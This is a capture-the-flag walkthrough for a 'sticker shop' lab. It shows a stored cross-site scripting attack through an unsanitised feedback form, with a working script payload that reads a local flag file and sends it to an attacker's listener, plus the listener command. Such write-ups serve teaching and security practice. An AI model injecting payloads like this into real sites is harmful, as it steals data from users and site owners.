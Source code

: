 ## Target Info

![sticker shop screenshot](./screenshots/sticker-shop01.png)


## Mission
Steal the contents of `http://10.10.197.209:8080/flag.txt`

## Performance

### Go to `http://10.10.197.209:8080/flag.txt`
The result is 401 unauthorized. 

![sticker shop screenshot](./screenshots/sticker-shop02.png)

### Browse the site homepage and discover a “Feedback” page
The feedback page presents a simple text area and “Submit” button, with no input sanitization.

![sticker shop screenshot](./screenshots/sticker-shop03.png)

### Craft the XXS payload
The script will read the local /flag.txt file and send it to the attacker host aka my machine.

    <script>
    fetch('http://127.0.0.1:8080/flag.txt')
      .then(response => response.text())
      .then(data => {
        fetch("http://10.10.15.220:7000/?flag=" + encodeURIComponent(data));
      });
    </script>

What is the code trying to do?
- Fetch the flag: fetch(`http://127.0.0.1:8080/flag.txt`) makes an HTTP request to `http://127.0.0.1:8080/flag.txt` to retrieve the contents of “flag.txt.”

- Read the response as text: Once the request succeeds, .then(response => response.text()) extracts the body of the response as plain text (stored in the variable data).

- Send the flag to my machine: finally, the snippet attempts to send that text (data) to `http://10.10.15.220:7000/` by adding it as a query parameter in the URL: fetch(`http://10.10.15.220:7000/?flag=` + encodeURIComponent(data));
- Using encodeURIComponent(...) ensures special characters (like spaces or symbols) in data are properly encoded so they don’t break the URL.

### Set up the listener (a simple HTTP server) on my machine

    root@ip-10-10-15-220:~# python3 -m http.server 7000
    Serving HTTP on 0.0.0.0 port 7000 (http://0.0.0.0:7000/) ...

The Python HTTP server command prints every incoming GET request (including its full URL and query string) to my terminal so I can see the exfiltrated flag.

### Submit the payload

Copy and paste the payload into the feedback textarea => Click Submit.

### Find the flag

After submitting the script, the listener will recieve the flag!

![sticker shop screenshot](./screenshots/sticker-shop05.png)

